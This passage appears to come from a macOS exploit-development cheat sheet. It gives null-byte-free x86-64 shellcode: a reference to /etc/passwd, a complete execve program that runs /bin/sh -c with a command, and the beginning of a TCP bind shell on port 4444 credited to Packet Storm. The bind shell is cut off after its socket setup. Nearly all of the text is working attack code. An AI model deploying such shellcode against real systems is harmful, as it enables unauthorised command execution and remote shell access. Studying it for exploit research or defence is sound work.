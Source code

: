 ```armasm
passwd_path:   db "/etc/passwd", 0
```

#### Invoke command with sh

```armasm
bits 64
section .text
global _main

_main:
    ; Prepare the arguments for the execve syscall
    sub rsp, 32           ; Create space on the stack

    ; Argument array
    lea rdi, [rel touch_command]
    push rdi                      ; push &"touch /tmp/lalala"
    lea rdi, [rel sh_c_option]
    push rdi                      ; push &"-c"
    lea rdi, [rel sh_path]
    push rdi                      ; push &"/bin/sh"

    ; execve syscall
    mov rsi, rsp                  ; rsi = pointer to argument array
    xor rdx, rdx                  ; rdx = NULL (no env variables)
    push    59                    ; put 59 on the stack (execve syscall)
    pop     rax                   ; pop it to RAX
    bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall

_exit:
    xor rdi, rdi                  ; Exit status code 0
    push    1                     ; put 1 on the stack (exit syscall)
    pop     rax                   ; pop it to RAX
    bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```

#### Bind shell

Bind shell from [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) in **port 4444**

```armasm
section .text
global _main
_main:
    ; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
    xor  rdi, rdi
    mul  rdi
    mov  dil, 0x2
    xor  rsi, rsi
    mov  sil, 0x1
    mov  al, 0x2
    ror  rax, 0x28
    mov  r8, rax
    mov  al, 0x61
```